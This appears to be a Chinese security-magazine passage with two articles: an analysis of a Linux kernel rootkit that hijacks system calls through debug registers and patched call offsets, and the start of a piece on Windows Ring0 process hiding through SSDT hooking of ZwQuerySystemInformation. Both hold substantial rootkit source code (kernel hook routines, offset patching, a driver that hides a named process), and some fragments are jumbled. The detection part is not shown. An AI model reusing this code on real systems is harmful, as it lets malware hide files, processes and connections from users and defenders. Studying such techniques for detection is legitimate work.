

文/图 小小衫

Rootkit 技术的演化，从应用级到内核级再发展为硬件级，每次演化都是一种技术的提升。应用级 Rootkit 主要通过替换 login、ls、ps、netstat 等 shell 命令或者修改一些系统配置文件实现隐藏；内核级 Rootkit 则主要是通过修改内核中的系统调用或者系统调用函数中嵌套的更为底层的函数以实现有效拦截，从而改变程序执行流（包括内核函数补丁技术、DKOM 技术、拦截缺页异常处理函数等）。

Linux 下的内核级 Rootkit 又可分为 LKM Rootkit 和非 LKM Rootkit，当前大部分 Rootkit 的实现都借助了 LKM 技术。LKM 可以很方便地让 Hackers 编写的恶意模块加载进内核，成为内核中的一个有效模块。如内核下的后门技术，在内核态下编写一个服务器监控模块，将其加载到内核中，则可在远程编写一个简单的客户端程序即可实现远程监控。然而，这些技术正遭受严峻的考验，大量针对 LKM 技术的 Rootkit 检测工具被开发出来，如对系统调用函数地址的监控、每个系统调用函数实现代码中的前 31 字节的校验等。

对系统函数进行补丁技术，一般会直接选择对系统调用函数入口处进行补丁，很少会针对某一个特定的系统函数进行 Patching。Linux 内核 `/arch/i386/kernel/entry.S` 文件中存放的系统调用的入口代码如下：

```asm
ENTRY(system_call)
RING0_INT_FRAME
  pushl %eax
  CFI_ADJUST_CFA_OFFSET 4
  SAVE_ALL
  GET_THREAD_INFO(%ebp)

cmpl $(nr_syscalls), %eax
jae syscall_badsys
syscall_call:
  call *sys_call_table(,%eax,4)
  movl %eax,EAX(%esp)
```

语句“cmpl $(nr_syscalls), %eax”占 5 个字节，“jae syscall_badsys”占 6 个字节，共 11 个字节大小。修改时只需简单插入“push $addr”和“ret”语句即可实现程序执行流的改变。这类修改内核函数机器码、通过写入 JMP 或 ret 等指令跳转到 Hook 函数中的技术，在遇到具备对系统调用函数前后多个字节校验的反 Rootkit 工具时，将原形毕露。

笔者最近看到 Miami Beach 写的 DR Rootkit，详细品读了一番，其采用的技术比较新颖：完全回避了 JMP、ret 等跳转代码，采用更改下层函数在上层函数的 Offset 实现跳转，并且还借助了调试寄存器来监控系统调用表的执行过程。本文将全面分析利用调试寄存器拦截系统调用的方法。

##### 前置知识

为了简化开发工作，Intel 提供了一系列特定寄存器来管理调试过程。其中 DR0 用来容纳 4 个 32 bit 的断点地址，DR5 和 DR4 是 Intel 保留的，未作定义，DR6 是断点状态寄存器，其中包含了所有引起异常中断的事件标志，用来协助断点调试。

DR7 为断点控制寄存器，它的高 16 位分成 4 个字段，分别用来规定 4 个断点的长度是一个字节还是 4 个字节以及引起断点的访问类型；低 16 位用来允许/禁止 4 个断点以及选择断点的条件。当 CPU 运行的代码执行/读取/写入 DR3~DR0 中设定的断点地址时，就会产生 int $0x01 中断陷入（trap 1），运行内核的 do_debug() 处理函数（handler）。DR Rootkit 就是通过把要截获的系统调用的函数地址设置到调试寄存器中，这样当有程序触发这些系统调用时就会率先被此 Rootkit 的“do_debug”函数实现截获，然后即可实现同其他 Rootkits 类似的“隐藏”工作。

调试状态寄存器 DR6 用于表示进入陷阱的原因，如果 B0~B3 其中任何一位置位，则表示是相应的 DR0~3 断点引发的调试陷阱；但有时候不管 GiLi 如何设置，只要是遇到 DRx 指定的断点，总会设置 B1，如果看到多个 B1 置位，则可以通过 GiLi 的情况判断究竟是哪个 DR 寄存器引发的调试陷阱。BD 置位表示是 GD 位置位情况下访问调试寄存器引发的陷阱；BT 置位表示是因为 TS 置位，即任务切换时 TSS 中 TS 位置 1 时切到第二个任务时第一条指令时引发的。BS 置位表示是单步中断引发的断点，即 eFlags 的 TF 置位时引发的调试陷阱。

## 利用 offset 实现跳转的 inLine Hook 技术

经常阅读内核代码的读者，可能更清楚函数的调用过程。几乎所有的系统调用函数都不是一步到位实现某个功能，相反总会嵌套一个或多个底层函数继续完成剩余的功能，故反汇编出来的代码中必然就会出现 call 语句，以跳转到下一个函数继续执行。因此，只要我们改变跳转偏移值，则可改变程序的执行流。例如 Socket 通信中的 sys_recvfrom 函数（接收来自发送方的数据），部分源代码如下：

```c
asmlinkage long sys_recvfrom(int fd, void __user *ubuf, size_t size,
                             unsigned flags, struct sockaddr __user *addr,
                             int __user *addr_len)
{
    struct socket *sock;
    struct iovec iov;
    struct msghdr msg;
    ...
}
```

```c
char address[MAX_SOCK_ADDR];
struct file *sock_file;
sock_file = fget_light(fd, &fput_needed);
sock = sock_from_file(sock_file, &err);
...
err = sock_recvmsg(sock, &msg, size, flags);
// 接收发送方发来的数据包
if (err >= 0 && addr != NULL) {
  err2 = move_addr_to_user(address, msg.msg_namelen, addr, addr_len);
  if (err2 < 0)
    err = err2;
}
```

实际上，**sock_recvmsg** 函数才是真正接收发送方从网络上发过来的数据包函数。**sys_recvfrom** 函数代码在调用 sock_recvmsg 之前，只是对数据包的接收缓冲区进行了一定的封装，以灵活调整缓冲区大小。下面我们让 Linux 内核进入静态调试状态，对 sys_recvfrom 函数进行反汇编……由图可知，`0xc0233f85` 是 sock_recvmsg 的内存地址，我们只需将此地址替换为 Hook 函数即可实现函数跳转。

2.4 内核以后的版本，系统调用表地址不再导出，即不可通过系统调用号直接映射出函数地址。为了准确获取 `sys_call_table` 地址实现调用函数的 Hook，我们采用了搜索法……同样，这里也可以采用搜索法从系统调用函数 **sys_recvfrom** 起始地址开始搜索关键字 `call`（机器码 `0xE8`），若搜索到则转向 call 指令调用的函数地址并与 sock_recvmsg 内存地址比较。



图 1

搜索指定内核函数的地址代码如下：

```c
unsigned int patch_func(unsigned int handler,
                        unsigned int old_func) {
  unsigned char *p = (unsigned char *)handler;
  unsigned char buf[4] = "\x00\x00\x00\x00";
  unsigned int offset = 0;
  unsigned int orig = 0;
  int i = 0;
  while (1) {
    if (i > 1024) return 0;
    if (p[0] == 0xe8) {
      buf[0] = p[1]; buf[1] = p[2];
      buf[2] = p[3]; buf[3] = p[4];
      offset = *(unsigned int *)buf;
      orig = offset + (unsigned int)p + 5;
      if (orig == old_func) break;
    }
    p++;
    i++;
  }
  offset = new_func - (unsigned int)p - 5;
  p[1] = (offset & 0x000000ff);
  p[2] = (offset & 0x0000ff00) >> 8;
  p[3] = (offset & 0x00ff0000) >> 16;
  p[4] = (offset & 0xff000000) >> 24;
  return orig;
}
```

上面代码的核心语句即 `orig = offset + (unsigned int)p + 5;` 和 `offset = new_func - (unsigned int)p - 5;`。对应 `call` 指令的相对位移计算：`call` 的目标地址不是绝对地址，而是相对当前 `EIP` 的偏移。通过替换 offset 值改变函数执行流程，使传统 inline Hook 检查失效，因为没有引入 JMP/RET 指令，也没有新增或修改其他指令。

##### 利用调试寄存器拦截系统调用

调试寄存器允许用户在内存地址上设置硬件断点，一旦执行流触发了一个硬件断点标记地址，则会将控制权交给调试中断处理程序……

## 编程解析 PROGRAMMING ANALYSE

（栏目编辑：socket）

继而调用 `do_debug` 函数。跟踪引发中断处理程序执行的代码入口，源码文件 `/arch/i386/kernel/entry.S` 中给出了定义：

`system_call` 地址获取方式这里不再介绍。下面我们来分析 `my_do_debug` 函数，即我们修改后的 `do_debug` 函数。函数代码如下：

```c
KPROBE_ENTRY(debug)
RING0_INT_FRAME
cmpl $sysenter_entry,(%esp)
je debug_stack_correct
FIX_STACK(12,debug_stack_correct,debug_esp_fix_insn)
debug_stack_correct:
  pushl $-1  # mark this as an int
  CFI_ADJUST_CFA_OFFSET 4
  SAVE_ALL
  xorl %edx,%edx # error code 0
  movl %esp,%eax # pt_regs pointer
  call do_debug
  // 调用 do_debug 函数
  jmp ret_from_exception
CFI_ENDPROC
.previous .text
```

由上面的代码可知，在调用 `do_debug` 函数之前没有其他的 `call` 指令，故搜索此函数内存地址就变得更加简单了。只需要匹配到 `call` 机器码，则断定此 `call` 指令即 `call do_debug` 语句。寻找 `do_debug` 内存地址的代码如下：

```c
static int __get_and_set_do_debug_2(unsigned int handler, unsigned int my_do_debug){
  unsigned char *p = (unsigned char *)handler;
  unsigned char buf[4]="\x00\x00\x00\x00";
  unsigned int offset = 0;
  unsigned int orig = 0;
  while (p[0] != 0xe8) p++;
  // 寻找 call 指令
  buf[0]=p[1];
  buf[1]=p[2];
  buf[2]=p[3];
  buf[3]=p[4];
  offset = *(unsigned int*)buf;
  orig = offset + (unsigned int)p + 5;
  // 计算 call 调用的函数，即 do_debug 内存地址
  offset = my_do_debug - (unsigned int)p - 5;
  // 改变偏移值，使其转向 my_do_debug 函数
  p[1]=(offset & 0x000000ff);
  p[2]=(offset & 0x0000ff00) >> 8;
  p[3]=(offset & 0x00ff0000) >> 16;
  p[4]=(offset & 0xff000000) >> 24;
  return orig;
}
```

其中函数参数 `handler` 为 `int 0x01` 中断服务处理程序的入口地址，此地址可以采用类似 `system_call` 地址获取方式获取，这里不再介绍。

```c
static void __my_do_debug(struct pt_regs *regs, unsigned long error_code){
  struct task_struct *tsk = current;
  siginfo_t info;
  int trap = -1;
  int control = 0;
  int s_control = 0;
  int status = 0;
  unsigned int dr2 = 0;
  /* 从 DR6 状态寄存器中读取，获取触发了哪个调试寄存器断点 */
  asm volatile("movl %%dr6,%0" : "=r"(status));
  /* check for trap on dr0 */
  if (status & DR_TRAP0)
    trap = 0;
  status &= ~DR_TRAP0;

  /* DR0 用来监控系统调用表读写情况 */
  control |= TRAP_GLOBAL_DR0;
  control |= DR_RW_EXECUTE << DR0_RW;
  control |= 0 << DR0_LEN;

  switch (trap){
    case 0:
      // 系统调用表
      if (hook_table[regs->eax]){
        asm volatile("movl %0,%%dr0\n\t"
                     "movl %1,%%dr7\n\t"
                     : : "r"(status), "r"(control));
        break;
      }
      asm volatile("movl %0,%%dr2\n\t" : : "r"(dr2));
      asm volatile("movl %0,%%dr6\n\t"
                   "movl %1,%%dr7\n\t"
                   : : "r"(status), "r"(s_control));
      if (regs->eflags & VM_MASK)
        goto orig_do_debug;
      break;

    case 2:
      /* 清除 Dr2 寄存器 */
      asm volatile("xorl %eax,%eax\n\t"
                   "movl %eax,%dr2\n\t");
      /* 恢复 int 0x80 中断处理器 */
      asm volatile("movl %0,%%dr6\n\t"
                   "movl %1,%%dr7\n\t");
      break;
  }
}
```

```c
if (status) {
    if (regs->eax >= 0 && regs->eax < NR_syscalls
        && hook_table[regs->eax]) {
        unsigned int verify_hook = (unsigned int)sys_p[regs->eax];
        if (regs->eip == verify_hook)
            regs->eip = (unsigned int)hook_table[regs->eax];
    }

    if (regs->eflags & VM_MASK)
        goto orig_do_debug;
    break;
default:
    DEBUGLOG("++ unhandled_trap");
orig_do_debug:
    /* 恢复原始 do_debug 函数的调用 */
    (*orig_do_debug)(regs, error_code);
    __asm__ __volatile__("movl %0,%%dr7\n\t"::"r"(control));
}
```

函数代码中，`regs->eax` 即系统调用号，我们可以根据此值来判断是否为我们需要 hook 的系统调用函数，若是则替换此函数值即可。

整个 Rootkit 的执行过程可归纳为以下几个步骤：

- 获取系统调用表地址；
- 获取调试寄存器引发的陷入处理函数地址 `do_debug`；
- 定义自己的 `my_do_debug` 函数，根据 DR6 中的状态寄存器判断是哪个寄存器断点触发，并判断引发中断的 `regs->eax` 中存放的系统调用号是否为我们感兴趣的系统调用，用新定义的函数替换原始 `do_debug`；
- 用 DR0 来监控系统调用表的读写操作；
- 隐藏自己在内核中生成的内核模块。

此时，Rootkit 需要完成的常见隐藏功能都可以实现，如文件隐藏、进程隐藏、网络连接的隐藏等。编写代码时可统一采用一个 `hook_table` 指针数组将 `sys_getdents64`、`sys_socketcall` 等系统调用的 Hook 版本存放其中，然后同 `regs->eax` 进行比对，从而转向 Hook 版本的代码实现中实现隐藏。

##### 小结

Rootkit 技术已经过渡到了硬件级别，是否内核级 Rootkit 就不可能再有更深的挖掘空间还有待探讨。笔者认为，只是因为内核级 Rootkit 当前受到大量针对其开发的各种有效 Rootkit 检测工具的挑战，从而导致很多 Hackers 转向硬件级 Rootkit，如基于 VMM 的 Rootkit、BIOS 的 Rootkit。`http://www.nvlabs.in/` 站点上就针对 Windows 7 提出了一种攻击技术，即 Vbootkit 2.0: Attacking Windows 7 (x64) via Boot Sectors，并给出了代码实现。感兴趣的读者可以品读下。内核级 Rootkit 的发展同样也一定会不断向前发展，只要提出了更加强大的隐藏技术以对抗当前的检测工具即是成功的。

前置知识：VC

关键词：编程、进程隐藏、进程检测

## Ring0级Rootkit进程隐藏与检测技术

文/图 小小衫



近来自己主机上老是莫名其妙地感染病毒（即在文件夹后默然追加了一个后缀 `.exe`），以前也碰到过这种情形，即只要单击受感染的 Office 文件，则分区下所有的 Office 文件将全部感染。

后来也好好分析过此病毒，即“sola 病毒”。起初没有去管这事，后来实在受不了就打算手工清除此病毒。打开任务管理器，发现了一些诡异进程，由数字和字母构成，显然不是正常进程，就运行 `regedit.exe` 搜索注册表，尝试搜索此进程，并手工删除了其对应的所有键值。重新查看受感染的分区，发现清除成功。这才顿悟，这不是 sola 病毒，只是某些人写的一个再简单不过的病毒。

引用上面的话，只是想说尽管我们已经谈论并以各种方式实现了不同级别的进程隐藏技术，但很多人却并不知晓编写简单代码即可躲过任务管理器的进程显示列表。Jim Hotkin 在《Detection of Hidden Process》一文中曾指出——估计 1000 个木马中仅有 1 个是进程隐藏的。可见，市面上见到的那些简单木马绝大部分出自新手级黑客。黑客从事的攻击活动需要尽可能部署得尽善尽美，任何一个环节出现弱点，都将是致命的。这其实等同于网络安全技术，尽管你在多个环节上部署了多层级安全防御措施，但任一环节出现漏洞，则全盘皆输。

言归正传，下面谈论下进程隐藏与检测技术。尽管进程隐藏技术已经被众多人讨论过，但笔者的目的是想通过此文，尽可能综合当前出现的各种进程隐藏与检测技术，谈论每种技术实现的特点及其如何实现，通过代码分析，尽可能全面地讲解 Ring0 下出现的各种进程隐藏与检测技术。

##### 进程隐藏技术

最早出现的进程隐藏技术，其实可追溯到 Ring3 下的线程注入，即在目标进程上下文中创建一个远程线程，通过此线程注入恶意 DLL 文件到目标进程中，借助目标进程的运行而被加载。基本步骤为：用 OpenProcess 打开目标进程，访问权限 `Process_VM_Operation` 或 `Process_VM_Write`；获取 `kernel32.dll` 下的 `LoadLibrary` 地址；在指定的目标进程中调用 `VirtualAllocEx` 函数，在目标进程地址空间中开辟一块内存；创建一个远程线程，将恶意 DLL 文件加载到已分配的内存空间中。流程如图1所示。



随着 SSDT Hook 技术的提出，涌现出大量针对 SSDT 的 Hook 攻击代码。SSDT 表中存放了系统调用函数内存地址，即任意给定的类似 `Nt*()` 函数在 SSDT 表中都可以找到其内存地址，通过简单的索引即可获取指定函数的内存地址。对应的索引值为：`IndexValue = *((PULONG*)((PCHAR*)address + 1))`。我们可以借助 WinDbg 工具，查看 `ZwOpenProcess` 进程的函数实现，如图2所示。



SSDT 结构体这里不再给出，不知道的读者可 Google 搜索查阅。通过定义此结构体，其内部存在 `ServiceTableBase` 参数，通过 `ServiceTableBase[IndexValue]` 即可获取到任意系统函数的内存地址。OK，此时则可大刀阔斧地 HOOK 这些内存地址了。下面简述如何借助 SSDT 表实现进程隐藏。

##### 基于 SSDT 的进程隐藏技术

Windows 系统下存在大量的 `ZwQuery*` 函数，如需要隐藏目录文件则可 Hook `ZwQueryDirectoryFile()` 函数。此处，我们需要实现进程隐藏，而进程是系统资源，故我们不妨查看 `ZwQuerySystemInformation()` 函数，看是否有眉目。在 NativeAPI 文档中可以看到其定义：

```c
NTSYSAPI NTSTATUS NTAPI ZwQuerySystemInformation(
  IN SYSTEM_INFORMATION_CLASS SystemInformationClass,
  IN OUT PVOID SystemInformation,
  ...
);
```

```c
// 不同 SystemInformationClass 参数可返回不同的内容
IN: PULONG SystemInformationLength;
OUT: PULONG ReturnLength OPTIONAL;
```

`SystemInformation` 指针返回的内容由 `SystemInformationClass` 确定，`SystemInformationClass` 及更多与此函数相关的定义可到 `http://msdn.microsoft.com/en-us/library/ms724509(VS.85).aspx` 上查看。`SYSTEM_INFORMATION_CLASS` 结构体中包含了大量与系统相关的信息，这里我们只关心 `SystemProcessInformation`。在调用 `ZwQuerySystemInformation` 函数时，若系统信息级等于系统进程信息，则 `SystemInformation` 指针将指向当前正在运行进程中包含的大量结构体数组，即 `SYSTEM_PROCESS_INFORMATION`。

```c
typedef struct _SYSTEM_PROCESS_INFORMATION {
    ULONG NextEntryOffset;
    BYTE  Reserved1[52];
    PVOID Reserved2[3];
    HANDLE UniqueProcessId;   // 进程ID
    PVOID Reserved3;
    ULONG HandleCount;
    BYTE  Reserved4[4];
    PVOID Reserved5[11];
    SIZE_T PeakPagefileUsage;
    SIZE_T PrivatePageCount;
    LARGE_INTEGER Reserved6[6];
} SYSTEM_PROCESS_INFORMATION;
```

`NextEntryOffset` 参数表示每个结构体之间的偏移（下一个结构体地址 = 当前结构体地址 + `NextEntryOffset`），并不代表指针。隐藏进程时跳过某个进程的 `SYSTEM_PROCESS_INFORMATION` 结构体并非简单赋值，而是需要将前后结构偏移进行累加处理。结构体之间的连接关系如图3所示。



显然，此刻若要实现进程隐藏，只需要 Hook 函数 `ZwQuerySystemInformation`。在新的 Hook 函数中调用此函数并判断获取到的 `SystemInformationClass` 是否为进程信息级；若是则获取 `SYSTEM_PROCESS_INFORMATION` 结构体内容，循环遍历上面的链表结构，判断每个结构中的 `UniqueProcessId` 是否为指定进程 ID。若需要按进程名隐藏，则需解析 `BYTE Reserved1[52]` 和 `PVOID Reserved2[3]` 的真实含义。

```c
ULONG Reserved[6];
KPRIORITY BasePriority;
LARGE_INTEGER CreateTime;
LARGE_INTEGER UserTime;
LARGE_INTEGER KernelTime;
UNICODE_STRING ProcessName;   // 进程名
```

因为在任务管理器下可能会显示多个不同 ID 的同一进程，此处实现进程名过滤最为可靠。以下是简单的代码分析实现。

```c
NTSTATUS NewZwQuerySystemInformation(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength)
{
    NTSTATUS ntStatus;
    PSYSTEM_PROCESS_INFO cSpi_ptr;
    PSYSTEM_PROCESS_INFO pSpi_ptr;

    ntStatus = ((ZWQUERYSYSTEMINFORMATION)
        OldZwQuerySystemInformation)(
        SystemInformationClass,
        SystemInformation,
        SystemInformationLength,
        ReturnLength);

    if (!NT_SUCCESS(ntStatus)) return ntStatus;
    // ... 遍历并过滤进程
}
```

```c
// 判断是否为系统进程信息，若不是则直接返回
if (SystemInformationClass != SystemProcessInformation) return ntStatus;
cSpi_ptr = (PSYSTEM_PROCESS_INFO)SystemInformation;
pSpi_ptr = NULL;
while (cSpi_ptr != NULL) {
    if (0 == memcmp(cSpi_ptr->ProcessName.Buffer, L"notepad.exe", 12)) {
        if (pSpi_ptr != NULL) {
            if (cSpi_ptr->NextEntryOffset == 0) {
                pSpi_ptr->NextEntryOffset = 0;
            } else {
                pSpi_ptr->NextEntryOffset += cSpi_ptr->NextEntryOffset;
            }
        } else {
            if (cSpi_ptr->NextEntryOffset == 0) {
                SystemInformation = NULL;
            } else {
                (BYTE*)SystemInformation = (BYTE*)SystemInformation + cSpi_ptr->NextEntryOffset;
            }
        }
    }
    pSpi_ptr = cSpi_ptr;
    if (cSpi_ptr->NextEntryOffset != 0)
        (BYTE*)cSpi_ptr = (BYTE*)cSpi_ptr + cSpi_ptr->NextEntryOffset;
    else
        cSpi_ptr = NULL;
}
return ntStatus;
```

驱动的加载与卸载的代码实现如下：

```c
VOID OnUnload(IN PDRIVER_OBJECT DriverObject) {
    DbgPrint("Device has been unloaded\n");
    ((ZWQUERYSYSTEMINFORMATION)(SYSTEMSERVICE)(ZwQuerySystemInformation)) = OldZwQuerySystemInformation;
    DbgPrint("Driver has been unloaded\n");
    return;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT ...)
```

```c
DriverObject->DriverUnload = OnUnload;
OldZwQuerySystemInformation =
    (ZWQUERYSYSTEMINFORMATION)(SYSTEMSERVICE(ZwQuerySystemInformation));
(ZWQUERYSYSTEMINFORMATION)(SYSTEMSERVICE(ZwQuerySystemInformation)) = NewZwQuerySystemInformation;
